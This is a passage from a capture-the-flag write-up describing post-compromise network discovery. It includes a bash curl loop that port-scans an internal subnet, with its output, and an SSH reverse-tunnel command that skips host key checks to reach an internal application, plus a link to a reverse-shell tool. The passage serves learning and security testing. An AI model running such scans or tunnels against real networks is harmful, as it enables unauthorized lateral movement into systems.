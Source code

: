 ```sh
for i in {1..255}; do for j in 22 80 443; do ERROR=$(curl -sS 172.27.0.$i:$j 2>&1 1>/dev/null); echo -e "172.27.0.$i:$j\t${ERROR:-Open}"; done; done

172.27.0.1:22   curl: (56) Recv failure: Connection reset by peer
172.27.0.1:80   Open
172.27.0.1:443  curl: (7) Failed to connect to 172.27.0.1 port 443: Connection refused
172.27.0.2:22   curl: (7) Failed to connect to 172.27.0.2 port 22: Connection refused
172.27.0.2:80   Open
172.27.0.2:443  curl: (7) Failed to connect to 172.27.0.2 port 443: Connection refused
172.27.0.3:22   curl: (7) Failed to connect to 172.27.0.3 port 22: Connection refused
172.27.0.3:80   Open
172.27.0.3:443  curl: (7) Failed to connect to 172.27.0.3 port 443: Connection refused
172.27.0.4:22   curl: (7) Failed to connect to 172.27.0.4 port 22: No route to host
172.27.0.4:80   curl: (7) Failed to connect to 172.27.0.4 port 80: No route to host
172.27.0.4:443  curl: (7) Failed to connect to 172.27.0.4 port 443: No route to host
172.27.0.5:22   curl: (7) Failed to connect to 172.27.0.5 port 22: No route to host
172.27.0.5:80   curl: (7) Failed to connect to 172.27.0.5 port 80: No route to host
172.27.0.5:443  curl: (7) Failed to connect to 172.27.0.5 port 443: No route to host
172.27.0.6:22   curl: (7) Failed to connect to 172.27.0.6 port 22: No route to host
...
```

![Screencast]({{ site.url }}/assets/h1-702-ctf-2019/shell.gif)

A quick check with `curl` showed that the webservers on two of the IP addresses were pointing at the previous FliteThermostat Backend application, whilst the 3rd was hosting a new application, and the next stage of the CTF.

Using SSH to reverse tunnel traffic through the compromised host to the new web server I could access the new application from my browser:
```sh
ssh -N -R 8001:172.27.0.2:80 -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" <user>@<server>
```
![Application]({{ site.url }}/assets/h1-702-ctf-2019/application.png)


#### Attachments
* [main_2.py]({{ site.url }}/assets/h1-702-ctf-2019/main_2.py)

#### Tools
* [SSHReverseShell](https://github.com/ajxchapman/sshreverseshell)

### Summary of Issues
* Web application running as root user
* Insufficient network segregation

## Stage 6 - HackerOne Accounting Application
Tunnelling through to the compromised host at http://172.27.0.2:80 provided access to YAPFA (Yet Another Python Flask Application).
